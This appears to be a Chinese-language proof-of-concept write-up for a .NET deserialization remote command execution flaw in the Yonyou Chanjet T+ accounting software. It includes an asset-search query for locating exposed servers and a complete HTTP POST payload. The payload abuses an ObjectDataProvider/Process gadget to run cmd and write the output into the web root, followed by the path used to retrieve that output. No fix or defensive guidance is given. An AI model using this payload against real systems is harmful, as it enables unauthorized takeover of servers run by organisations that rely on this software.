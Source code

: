 # 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞

## 漏洞描述

用友 畅捷通T+ GetStoreWarehouseByStore 存在 .net反序列化漏洞，导致远程命令执行，控制服务器

## 漏洞影响

<a-checkbox checked>用友 畅捷通T+</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="畅捷通-TPlus"</a-checkbox></br>

## 漏洞复现	

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1662017510454-8bb328d0-35ee-42f9-a36a-625e95a5cfc2-7407771.png)

验证POC

```plain
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Content-Length: 668
X-Ajaxpro-Method: GetStoreWarehouseByStore
Accept-Encoding: gzip

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
      "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
      "StartInfo":{
        "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "FileName":"cmd",
        "Arguments":"/c whoami > C:/Progra~2/Chanjet/TPlusStd/WebSite/2RUsL6jgx9sGX4GItQBcVfxarBM.txt"
      }
    }
  }
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1687318403430-18bcefb9-29de-4d0f-8016-21cc7b6c80cd.png)

```plain
/tplus/xxx.txt
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1687318446387-1d04ad6c-6b7c-4f0f-9d83-eef3642b8a1e.png)